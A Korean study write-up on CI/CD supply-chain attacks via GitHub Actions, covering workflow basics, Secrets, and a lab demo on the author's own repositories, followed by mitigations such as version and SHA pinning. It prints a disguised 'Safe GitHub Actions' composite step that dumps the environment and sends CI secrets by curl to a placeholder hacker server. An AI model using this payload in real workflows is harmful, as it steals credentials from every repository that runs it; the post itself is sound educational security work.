



Github Repository: [Supplier](https://github.com/pxxguin/supplier) | [Victim](https://github.com/pxxguin/victim)
## 🚑 진짜 간단히 설명하는 CI
스터디를 하기에 앞서 다 알겠지만, 혹시 서로 아는게 다를 수 있으니깐 CI/CD에 대해서 짚고 넘어가겠습니다. 우리가 개발을 해서 서비스를 만든다고 가정을 해봅시다. 5명의 팀원이 한 조인데, 1명이 PM(Project Manager)입니다. 서로 구현하고 싶은 기능을 하나씩 추가해서 PR(Pull Request)를 보내는게 일반적인 상황인데, PM이 해야할 일도 많은데 모든 코드를 다 잘 작동하는지 보고 있으면 시간이 많이 아깝습니다. 그래서 ==CI는 1차 필터링 과정==이라고 보시면 편합니다. 

:::important
CI(Continuous Integration)는 대개 3가지 흐름으로 이루어져있습니다.
1. Build: 테스트 환경 구축 및 SAST 도구 사용
```bash
uv sync
```
2. Test: 해당 PR에서 구현해야하는 함수 및 기존에 존재하는 함수가 정상적으로 동작하는지 확인합니다. 구현해야할 함수에 대해서 미리 ==테스트 코드를 구현해서 PR로 Draft를 보냅니다.== 이후 PM이 승인을 하면 ==해당 기능을 구현하고 실제 main 브랜치에서 구현된 코드를 테스트 하는 방식==입니다. 아래는 다들 사용하는 언어가 다르다고 생각해서 간단히 파이썬의 pytest로 구현했습니다.
```bash
uv run pytest src/test_sum.py
```
3. Packaging: 테스트가 잘 진행되었으면, 해당 레포지토리를 Docker Image로 패키징을 하는 과정을 거칩니다.
이 부분은 CI/CD 파이프라인 공급망 공격에서 별로 중요하지 않다고 생각해서 빼겠습니다.
:::

## 🕍 Github workflow의 기본 로직
```yaml
name: This is CI test
on: push
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - name: Git clone
      uses: actions/checkout@v7
```
우리가 일반적으로 ==.github/workflows/*.yml 파일 각각을 워크플로우==라고 부릅니다. 
name: 워크플로우의 이름
on: 사용자가 어떠한 행동을 했을 때, 이 워크플로우가 동작할지를 지정(push, pull request)
jobs: 워크플로우는 job들로 이루어져있음
runs-on: 어떤 환경에서 이 워크플로우를 실행할 것인가?(ubuntu, mac, windows)
steps: job 안에는 여러개의 스텝으로 이루어져있음
uses: 사전에 정의된 github actions를 사용할 수 있음

## 🎆 Github secrets란 무엇인가?
우리가 Docker image를 빌드하거나, CD 환경에서 AWS로 배포를 하거나, OpenAI의 기능이 필요한 패키지에 대해서는 .env 파일을 로컬에 저장을 하면 우리가 ==실제 서비스를 할 때 .env파일을 하드코딩할 수 없기 때문에 주로 Github Secrets 기능을 사용하여 Github Repository에 저장==합니다. 이는 외부로의 반출이 불가합니다. 절대로. ==외부에서 이 토큰을 읽을수도 없고, 실제로 Github Actions를 통해서 제가 echo를 써본다면 해당 값이 마스킹 처리==되는 것을 볼 수 있습니다.
```bash
gh secret set OPENAPI_KEY --body sk-proj-dummy1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
gh secret set AWS_SECRET_ACCESS_KEY --body wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
```
이렇게 입력을 하면, Secrets Variable에 해당 키 값이 저장이 됩니다. 이걸 출력을 해보면, 다음과 같은 결과를 확인할 수 있습니다. Secrets로 등록되면 반.드.시 마스킹 처리가 된 상태로 출력되고 절대로 평문으로 받을 가능성이 없습니다.


## 🛞 과연 어느 곳에서 해커의 공격이 발생할 수 있는가?
Github Actions로 CI 워크플로우를 작성할 때 가장 많이 사용하는 부분이 ==uses부분==입니다. 제가 안쓰는 곳을 본 적이 없습니다. 아래 보이시는 action은 실행하는 레포지토리를 clone하는 부분입니다. 그러면 여기서 질문을 할 수 있는데, git clone을 쓰면 되지, 왜 굳이 이걸 사용하나요? 에 대해서 다음과 같이 설명할 수 있습니다. 

저희가 이 워크플로우를 실행할 환경을 ==ubuntu==로 지정했습니다. 여기에는 github 사용자 정보가 없습니다. 그래서 github 토큰과 아이디, 이메일을 입력해야하는데 귀찮기 때문에(사실 보안적인 이유가 훨씬 강합니다.) 우리가 actions/checkout@v7을 사용하면 위 과정 없이 현재 레포지토리를 가져올 수 있습니다. 그래서 씁니다.

```yaml
uses: actions/checkout@v7
```
여기서 주목해야하는게, 위 actions는 ==Github에서 지정한 공식 action==이고, 몇명의 Github maintainer가 관리합니다.
만약, 이 몇명의 maintainer 중 ==한 명의 계정이나 토큰을 탈취할 수 있다면 우리는 이 action을 사용하는 모든 서비스에서 우리가 정의한 워크플로우가 동작하도록 만들 수 있지 않을까요?==

## 🏍️ 직접 테스트를 해봅시다.
일단 우리는 3명의 디렉토리를 만들어야하는데, 이 3명은 Supplier, Victim, Hacker로 지정하겠습니다. 원래의 Supplier의 Github Actions는 아래와 같이 아주 선량하게 구성이 되어있습니다.
```yaml
name: 'This actions show who are you!'
description: '이 액션은 당신이 누구인지 출력해줍니다.'
runs:
  using: 'composite'
  steps:
    - name: Print who you are!
      shell: bash
      run: sh -c "echo $GITHUB_ACTOR"
```
보이는 그대로 ==GITHUB_ACTOR이라는 환경변수를 출력해주는 Action==죠.(여기서 GITHUB_ACTOR를 출력한 결과는 이 워크플로우를 Trigger한 사용자의 이름이 출력됩니다.) 이 Action을 Victim에서 사용해봅시다.
```yaml
name: This is the first example
on: push
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Git Clone
        uses: pxxguin/supplier@v1
      - name: Print Hello, World!
        run: echo "Hello, World!"
```
여기서 pxxguin/supplier@v1은 위에 보이는 GITHUB_ACTOR를 출력해주는 액션이고 아래와 같이 정상적으로 동작하는 것을 볼 수 있습니다. ==이 액션이 우리가 실습을 위해서 정의한 액션이지만, 실제 actions/checkout@v7과 같은 기능을 한다고 생각해주세요.==(제가 실제 actions/checkout@v7을 해킹할 수 없으니 임의로 만든 액션입니다.)



## 자 그러면 이제 해킹을 시작해볼까요?
아까 우리가 가정 자체를 actions의 maintainer 계정을 탈취했다고 했으니, 우리 마음대로 workflow 파일을 조작할 수 있을 겁니다. 아래 코드 처럼, 이 action이 동작하는 ==모든 레포지토리에 사용되는 환경변수(키값)들을 모두 수집해서 Hacker의 서버로 보내는 로직==으로 바꿔치기 해봅시다.

```yaml
name: 'Safe GitHub Actions'
description: 'FastAPI C2로 Secret을 전송하는 Custom Workflow'
runs:
  using: 'composite'
  steps:
    - name: Exfiltrate Secrets to C2
      shell: bash
      run: |
        echo "😈 Executing Malicious Payload..."
        ENV_DUMP=$(env | base64 -w 0)
        curl -s -X POST "<Hacker의 백엔드 서버>" \
          -H "Content-Type: application/json" \
          -d "{\"aws_secret\": \"$AWS_SECRET_ACCESS_KEY\", \"openai_secret\": \"$OPENAPI_KEY\", \"repo\": \"$GITHUB_REPOSITORY\", \"actor\": \"$GITHUB_ACTOR\", \"env_dump\": \"$ENV_DUMP\"}"
```

개발자의 대다수가, Github Actions의 동작 과정을 디버깅 해보지 않습니다. ==그냥 평소처럼 사용하는 액션이 당연히 정상적인 액션일 것이라고 생각합니다.== 심지어 이름마저 안전하다고 하니.. 믿을만 하겠죠(?)

위의 코드 자체는 보시다시피 간단합니다. 그냥 ==env 결과를 base64로 만든 이후에 이 값을 ENV_DUMP라는 환경변수에 저장하는거죠.== 그리고 ENV_DUMP라는 이 값을 JSON 형태로 Hacker의 서버로 전달하는겁니다.

AWS_SECRET_ACCESS_KEY나 OPENAPI_KEY의 경우, 우리가 사전에 알고 있으니 하는건데 ==실제로는 ENV_DUMP로만 작성하겠죠?== 여기서 ??base64 -w 0??으로 만들어준 이유는, 환경변수가 출력되면 자동으로 줄바꿈을 하는데 이 자체로 JSON으로 전달할 경우 데이터가 깨질 수 있다고 판단했기 때문이라는 점 참고해주시면 됩니다.

## 진짜 된다고요?
실습에서 보여주겠지만, Hacker는 이미 서버를 연 상태이고, Victim에서 해당 워크플로우가 동작한다면 어떤 결과를 반환하는지 궁금할 것이라고 생각합니다.


위 그림에서 볼 수 있듯이 ==실제로 Victim에서 해당 워크플로우가 작동되면 Hacker의 서버로 Secrets 값들이 전송==됩니다. 고작 actions를 사용했다는 이유 하나로요.

자 그럼, 이제 큰 영역을 한번 봐보죠. 이게 실제로 정말 많이 사용되는 actions/checkout@v7이라면?? 이 서비스를 이용하는 수 없이 많은 레포지토리 이용자들 또는 Organization의 secrets 값들이 해커에게 전송되겠죠? ==Hacker는 단순히 maintainer의 계정을 노리고 접근하지 않습니다. 이 actions을 사용하는 수 없이 많은 다른 사용자들을 노리는거죠.== 이게 CI/CD 파이프라인에서의 공급망 공격입니다.

## 이 공격 어떻게 막을 수 있나요?
기존의 문제점으로는 해커가 같은 버전으로 덮어쓰기(악성 워크플로우를 기존에 존재하는 버전으로)한다는 점이였습니다. 이 문제를 해결하기 위해서 ==반드시 버전은 Immutable Release라 해서, 하나밖에 존재할 수 없습니다==. 그니깐, 7.1.1 버전이 존재하는 경우 7.1.1로 덮어쓰기를 진행할 수 없다는거죠. 하지만 이 부분도 완전하지 않습니다. 사용자가 actions/checkout@v7.1.1로 쓴다면 아무런 문제가 되지 않지만, 대부분의 개발자들은 actions/checkout@v7로 사용한다는 점이죠.

둘의 양식은 어떤 차이가 있을까요? ==actions/checkout@v7의 경우 v7로 시작하는 버전 중 가장 최신의 버전을 사용==합니다. 새로운 버전으로 업데이트가 될 때, 자동으로 새로운 버전의 액션을 사용할 수 있는거죠. 단점은 뭘까요? 만약 해커가 기존의 버전 대신 새로운 7.1.2 버전으로 악성 워크플로우를 배포한다면? 위의 실습처럼 저희의 secret 키가 모두 탈취된다는 점입니다.

그럼 버전을 7.1.1과 같이 특정 버전으로 고정하거나, 특정 버전의 sha값을 지정해서 사용하면 되지 않는가? 라는 질문을 하실 수 있습니다. 물론 이렇게 쓰는게 안전하긴 합니다. 하지만 ==안전하다고 여겨졌던 7.1.1에 취약점이 발견되어서 7.1.2로 업데이트를 해야한다고 합시다.== 실제 운영되는 서비스에는 수 없이 많은 .yaml 파일이 존재합니다. 여기에 사용되는 모든 버전을 다 ++수동++으로 고쳐야합니다. 과연 누가 고칠지 궁금하긴 하네요.

현재 이를 해결하기 위한 노력이 있긴 하지만, 뚜렷한 해결책이 없는 상황입니다. 이 부분을 해결한다면, Github에 비싼 값을 주고 팔 수 있지 않을까 생각해봅니다 ㅎㅎ

지금 몹시 피곤한 상태라 글에 두서가 없을 수 있습니다. 궁금한건 물어봐주세요..